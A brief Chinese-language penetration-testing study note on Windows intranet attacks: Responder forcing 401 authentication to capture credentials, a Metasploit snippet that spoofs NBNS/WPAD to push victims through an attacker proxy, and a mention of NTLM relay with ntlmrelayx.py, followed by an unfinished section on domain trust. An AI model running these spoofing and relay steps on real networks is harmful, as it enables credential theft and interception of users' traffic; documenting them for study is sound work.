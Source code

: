 > 这个之前摸过了，感觉这种情况实际用的比较少，算是比较被动的方式~觉得主要围绕Responder这个工具展开，之前玩了一圈，好像没写文章发出来，这里就稍做记录吧...

#### 攻击手法1

Responder -b 强制开启401认证，触发场景就是用户访问一个网站，弹出小框框，在内网下捕获（总觉得挺明显的）

#### 攻击手法1.1

> 这个没看过，看了介绍就是因为都能控制PAC了，那直接让用户流量走我们的机器过...（PS 非域内）

~~这个还没手动做过，又mark一下~~

msf指令

```msf
use auxiliary/spoof/nbns/nbns_response
set regex WPAD
set spoofip attackip
run
use auxiliary/server/wpad
set proxy 172.16.127.155
run
```

#### 攻击手法2.0

> 这个挺有意思的，mark一下 -> responder关闭smb，开启ntlmrelayx.py，做ntlm-relay

### 域信任（暂不全）

> 这里搭建的时候是单域环境，没有做多域环境...又先埋一个小坑...

为了方便理解，直接从jumbo大佬的文章里把这个图搬运过来

![image](./imgs/domain_trust.png)
